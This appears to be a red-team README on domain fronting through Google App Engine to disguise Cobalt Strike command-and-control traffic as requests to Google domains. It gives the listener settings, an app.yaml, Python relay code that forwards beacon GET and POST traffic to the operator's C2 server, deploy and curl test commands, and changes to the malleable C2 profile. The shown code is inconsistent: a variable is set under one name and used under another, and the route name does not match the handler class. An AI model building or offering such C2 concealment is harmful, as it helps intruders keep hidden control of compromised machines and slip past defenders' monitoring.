 # Google-Domain-fronting
Domain fronting using Google app engine

Add the Cobalt Strike Listener

For this blog, we are going to assume using Cobalt strike as a C2 server, but this can be done with any Offensive infrastructure 
(Metasploit, Empire, Pupy, etc.).

First we are going to add our Cobalt Strike listener.

Use the “windows/beacon_https/reverse_https” listener
Set the Host value to the name of your appspot hostname
Set the port value to 443

![alt text](https://www.cyberark.com/wp-content/uploads/2017/07/GF-image-1.jpg)

Set the host list for tasks to the Google addresses we are fronting:

![alt text](http://www.cyberark.com/wp-content/uploads/2017/07/GF-image-2-1.jpg)

Deploy Your Google App Engine
Google app engine is a cloud platform which allows users to build and deploy custom web and mobile applications. It acts as an 
abstraction layer between the application and the cloud infrastructure.
We will use the Google App Engine as a redirector between our C2 server and compromised machine, using Google frontend domains to 
redirect requests destined to google.com domains:

![alt text](http://www.cyberark.com/wp-content/uploads/2017/07/GF-image-3.jpg)

Next, we need to deploy the code into Google App Engine ([Link](https://cloud.google.com/appengine/ "Google App Engine")). Assuming you 
have already created a project ([Link](https://www.securityartwork.es/2017/01/31/simple-domain-fronting-poc-with-gae-c2-server/ 
"Instructions")), create a new directory to store the project in.

'''
$. mkdir myproject
$. cd myproject
'''

You will have two files in this app engine directory: app.yaml and main.py. App.yaml should look like this:

'''
runtime: python27
api_version: 1
threadsafe: true
 
handlers:
- url: /.*
  script: main.app
'''

Main.py is available in this [Link](https://gist.github.com/redteam-cyberark/90fe4a3bc0caa582fc563ec503e5444c 
"gist"). There are a couple of blocks from the code to point out.

First, near the top is a variable to set as your CobaltStrike IP address or domain. There is no need to use a redirector, your 
CobaltStrike IP will be hidden from beacon endpoint analysis.

'''
# change to your Cobalt Strike IP 
cs_ip = &quot;MYCOBALTSTRIKE_IP&quot;
'''

Although it is possible to add a second redirector layer between Cobaltstrike and our Google App, it complicates the deployment without 
actually providing value to the red team. Only a Google employee should be able to view traffic from the GAE to the C2.

Next, the route table for the application, shown here, is very simple.

'''
app = webapp2.WSGIApplication([
    (r&quot;/(.+)&quot;, C2)
], debug=True)
'''

Any request including URI sent to the AppSpot domain will be sent on to CobaltStrike. This will not be ideal if you want to filter the 
requests based on User-Agent, originating IP, or URI. These are common deterrents against blue team members typically employed in a 
redirector.

The last thing to point out is the way the application handles a request sent. The handling of a POST and GET requests is given below.

'''
class CommandControl(webapp2.RequestHandler):
    def get(self, data):
        url = 'https://'+redirector+'/'+str(data)
        try:
            req = urllib2.Request(url)
            req.add_header('User-Agent',&quot;Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko&quot;)
            for key, value in self.request.headers.iteritems():
                req.add_header(str(key), str(value))
 
            resp = urllib2.urlopen(req)
            content = resp.read()
 
            self.response.write(content)
        except urllib2.URLError:
            &quot;Caught Exception, did nothing&quot;
# handle a POST request
    def post(self, data):
        url = 'https://'+redirector+'/'+str(data)
        try:
            req = urllib2.Request(url)
            req.add_header('User-Agent',&quot;Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko&quot;)
            for key, value in self.request.headers.iteritems():
                req.add_header(str(key), str(value))
 
            # this passes on the data from CB
            req.data = self.request.body
 
            resp = urllib2.urlopen(req)
            content = resp.read()
 
            self.response.write(content)
        except urllib2.URLError:
            &quot;Caught Exception, did nothing&quot;
'''

Notice that the request sent to the appspot application is sent on to the CobaltStrike instance. The application also makes sure to \
handle HTTP headers sent with the request and any data sent in the body of a POST request. This leaves the application generic enough to 
be used with different malleable C2 profiles.

Deploy the code:

'''
$. gcloud app deploy
'''

Verify the Redirector

After the code is deployed and the listener is setup, run a quick test to make sure everything is working. Open up the Web Log in CobaltStrike (View > Web Log) and send a cURL request to the GAE app:

'''
$. curl -i –H “Host: [appname].appengine.com” –user-agent “Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0)” https://mail.google.com/hi_there
 
...
'''

Verify the request shows up in the Web View logs. You should receive an empty 200 OK from the cURL request and a 404 in CobaltStrike.

![alt text](https://www.cyberark.com/wp-content/uploads/2017/07/GF-image-4.jpg)

The redirector is working!

Update Your Malleable C2 Profile

The last step is to setup the C2 profile. We have supplied a simple example here. It is a modified version of the [Link]
(https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/webbug.profile "Webbug Profile") created by @rsmudge.

There are a few important points to make about this profile:

Make sure to modify the ‘header “Host”’ line in both the http-get and http-post section. This should have your appengine name.
We do not need to add any certificate data to the profile. We are using Google’s HTTPS certificates in the beacon to application communication (woot!). From the application to the C2, HTTPS communication is proxied and not accessible from the beacon endpoint.
Not sure if it is required, but the metadata http-get section and the output section of http-post client/server is changed to use base64url. Netbios should also be suitable encoding.
Restart CobaltStrike with the new profile ready for use.

From now on, your beacon traffic should look like it’s going to www.google.com, mail.google.com or docs.google.com.
